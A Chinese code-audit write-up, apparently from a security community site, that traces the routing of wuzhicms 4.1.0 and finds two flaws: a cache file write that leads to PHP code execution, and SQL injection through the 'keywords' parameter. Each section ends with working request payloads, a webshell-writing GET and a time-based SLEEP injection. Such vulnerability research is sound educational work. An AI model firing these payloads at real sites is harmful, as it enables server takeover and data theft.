



# 分享文件写入和sql注入漏洞的审计过程-先知社区

> **来源**: https://xz.aliyun.com/news/16900  
> **文章ID**: 16900

---

# 前言

这篇文章将记录 wuzhicms 的漏洞挖掘过程，当中会分享一些审计的技巧，希望对想要学习审计的朋友有所帮助。

# 路由规则

一般拿到源码后都得先搞清楚它的路由规则，这样方便定位文件

入口文件：index.php

```
<?php
// +----------------------------------------------------------------------
// | wuzhicms [ 五指互联网站内容管理系统 ]
// | Copyright (c) 2014-2015 http://www.wuzhicms.com All rights reserved.
// | Licensed ( http://www.wuzhicms.com/licenses/ )
// | Author: wangcanjia <phpip@qq.com>
// +----------------------------------------------------------------------
/**
 * 程序入口文件
 */

//检测PHP环境
if(PHP_VERSION < '5.2.0') die('Require PHP > 5.2.0 ');
//定义当前的网站物理路径
define('WWW_ROOT',dirname(__FILE__).'/');

require './configs/web_config.php';
require COREFRAME_ROOT.'core.php';

$app = load_class('application');
$app->run();
?>
```

跟进load\_class方法

```
function load_class($class, $m = 'core', $param = NULL) {
    static $static_class = array();

    //判断是否存在类，存在则直接返回
    if (isset($static_class[$class])) {
        return $static_class[$class];
    }
    $name = FALSE;
    if (file_exists(COREFRAME_ROOT.'app/'.$m.'/libs/class/'.$class.'.class.php')) {
        $name = 'WUZHI_'.$class;
        if (class_exists($name, FALSE) === FALSE) {
            require_once(COREFRAME_ROOT.'app/'.$m.'/libs/class/'.$class.'.class.php');
        }
    }
    //如果存在扩展类，则初始化扩展类
    if ($class!='application' && $class!='admin' && file_exists(COREFRAME_ROOT.'app/'.$m.'/libs/class/EXT_'.$class.'.class.php')) {
        $name = 'EXT_'.$class;
        if (class_exists($name, FALSE) === FALSE) {
            require_once(COREFRAME_ROOT.'app/'.$m.'/libs/class/EXT_'.$class.'.class.php');
        }
    }

    if ($name === FALSE) {
        $full_dir = '';
        if(OPEN_DEBUG) $full_dir = COREFRAME_ROOT.'app/'.$m.'/libs/class/';
        echo 'Unable to locate the specified class: '.$full_dir.$class.'.class.php';
        exit();
    }
```

如果`$static_class`变量中存在类就直接获取，否则从地址`coreframe/app/core/libs/class/$class.class.php`中获取

类名在wuzhicms中都定义为`WUZHI_$class`类。那么`load_class('application')`即加载`WUZHI_application`类

```
final class WUZHI_application {
    private $_m; // 模块名，取值方式：M
    private $_f; // 文件名 取值方式：F
    private $_v; // 方法名 取值方式：V
    
    private function setconfig() {
        $sn = $_SERVER["SERVER_NAME"];
        $route_config = get_config('route_config'); // $config[$filename] = include WWW_ROOT.'configs/'.$filename.'.php';
        if(isset($route_config[$sn])) {
            $route_config = $route_config[$sn];
        } else {
            $route_config = $route_config['default'];
        }
```

`get_config(route_config)`方法即从`www/configs/route_config.php`中读取配置，`route_config.php`内容如下

```
return array(
    'default'=>array('m'=>'content', 'f'=>'index', 'v'=>'init'),
);
```

即调用`content`模块的`index.php`文件的`init()`方法，从目录结构中查找对应的文件，可以判断出模块即为`coreframe/app/content`。目录结构如下

```
wuzhicms-4.1.0
├─bin
├─caches
└─coreframe
    └─app
        ├─affiche
        ├─appupdate
        ├─attachement
        ├─collect
        ├─content
           ├─admin
           ├─fields
           ├─libs
           ├─city.php
           ├─...
           ├─index.php
```

wuzhicms的coreframe下的文件路由访问形式均为：`http://ip:port/wuzhicms/index.php?m=目录&f=文件名&v=方法&_su=wuzhicms`

### 文件写入漏洞

主要看file\_put\_contents函数里面的参数是否可控，按两下shift全局查找一下，经过查找发现coreframe/app/core/libs/function/common.func.php中存在filename及data参数可控

点击查看发现在set\_cache方法里面

```
/**
 * 写入缓存
 * @param $filename 文件名
 * @param $data 数组或者字符串
 * @param string $dir 写入目录名，文件缓存写入：/caches/$dir
 * @return bool
 */
function set_cache($filename, $data, $dir = '_cache_'){
    static $_dirs;
    if ($dir == '') return FALSE;
    if (!preg_match('/([a-z0-9_]+)/i', $filename)) return FALSE;
    $cache_path = CACHE_ROOT . $dir . '/';
    if (!isset($_dirs[$filename . $dir])) {
       if (!is_dir($cache_path)) {
          mkdir($cache_path, 0777, true);
       }
       $_dirs[$filename . $dir] = 1;
    }

    $filename = $cache_path . $filename . '.' . CACHE_EXT . '.php';
    if (is_array($data)) {
       $data = '<?php' . "\r
 return " . array2string($data) . '?>';
    }
    file_put_contents($filename, $data);
}
```

ctrl+B看看谁又调用了set\_cache方法，发现在coreframe/app/attachment/admin/index.php的set方法里面调用

```
public function set()
 {
     if (isset($GLOBALS['submit'])) {
         set_cache(M, $GLOBALS['setting']);
         MSG(L('operation_success'), HTTP_REFERER, 3000);
     } else {
         $show_dialog = 1;
         load_class('form');
         $setting = &$this->_cache;
         if(!isset($setting['show_mode'])) {
    $setting = array('show_mode'=>2,'watermark_enable'=>1,'watermark_pos'=>0,'watermark_text'=>'www.wuzhicms.com');
    set_cache(M, $setting);
}
         include $this->template('set', M);
     }
 }
```

file\_put\_contents($filename, $data)，$data就是$GLOBALS['setting']，是我们可控的，我们可以往里面写入恶意代码，缓存文件名是不可控的，现在就要找到一个可以包含该缓存文件的地方

```
function get_cache($filename, $dir = '_cache_'){
    $file = get_cache_path($filename, $dir);
    if (!file_exists($file)) return '';
    $data = include $file;
    return $data;
}
```

查找该文件中是否存在`get_cache()`方法的调用，发现有ueditor方法调用了

```
public function ueditor()
 {
     if (isset($GLOBALS['submit'])) {
         $cache_in_db = cache_in_db($GLOBALS['setting'], V, M);
         set_cache(V, $GLOBALS['setting']);
         MSG(L('operation_success'), HTTP_REFERER, 3000);
     }
     else {
         $setting = get_cache(V);
if(empty($setting)) $setting = cache_in_db('', V, M);
         include $this->template(V, M);
     }
 }
```

```
# 1 写入一句话木马到缓存文件
GET /wuzhicms/index.php?m=attachment&f=index&v=set&_su=wuzhicms&submit=1&setting=<%3fphp+system"whoami")%3b%3f>
# 2 读取缓存文件
GET /wuzhicms/index.php?m=attachment&f=index&v=ueditor&_su=wuzhicms
```


### sql注入漏洞

也是和上面操作一样的，搜索看哪里存在sql查询语句，这里发现在coreframe/app/core/libs/class/mysql.class.php文件下，提供了一个名为`query`的方法，用于执行SQL查询

```
public function query($sql, $type = '', $cachetime = FALSE) {
       //if($_SERVER['REMOTE_ADDR']=='127.0.0.1') echo $sql."<br>";
    $func = $type == 'UNBUFFERED' && @function_exists('mysql_unbuffered_query') ? 'mysql_unbuffered_query' : 'mysql_query';
    if(!($query = $func($sql, $this->link)) && $type != 'SILENT') {
       $this->halt('MySQL Query Error', $sql);
    }
    $this->querynum++;
    $this->histories[] = $sql;
    return $query;
}
```

接下来追踪query方法，看哪里调用了它

发现很多地方都调用了



先看delete方法下的调用，它把$sql参数当作sql语句执行了，这里就很有可能存在sql注入漏洞了

```
public function delete($table, $where = '') {
    $where = $where ? ' WHERE '.$where: '';
    $sql = 'DELETE FROM `'.$this->tablepre.$table.'`'.$where;
    return $this->query($sql);
}
```

追踪下$where参数，看是否可控

```
public function listing() {
       $siteid = get_cookie('siteid');
       $page = isset($GLOBALS['page']) ? intval($GLOBALS['page']) : 1;
       $page = max($page,1);
       if(isset($GLOBALS['keywords'])) {
           $keywords = $GLOBALS['keywords'];
           $where = "`name` LIKE '%$keywords%'";
       } else {
           $where = '';
       }
    $result = $this->db->get_list('copyfrom', $where, '*', 0, 20,$page);
    $pages = $this->db->pages;
       $total = $this->db->number;
    include $this->template('copyfrom_listing');
}
```

发现$where参数是由全局变量keyword赋值的，我们可以控制，而且也没有过滤，这样的话就会存在sql注入漏洞了

梳理一下调用过程就是：copyfrom文件下的listing方法中存在一个可控全局变量参数keywords,赋值给$where，插入sql查询语句，并且被执行了

```
m=core&f=copyfrom&v=listing&_su=wuzhicms&keywords=1' AND (SELECT 1228 FROM (SELECT(SLEEP(5)))jFgw)-- JQJJ
```



可以看到成功延时了
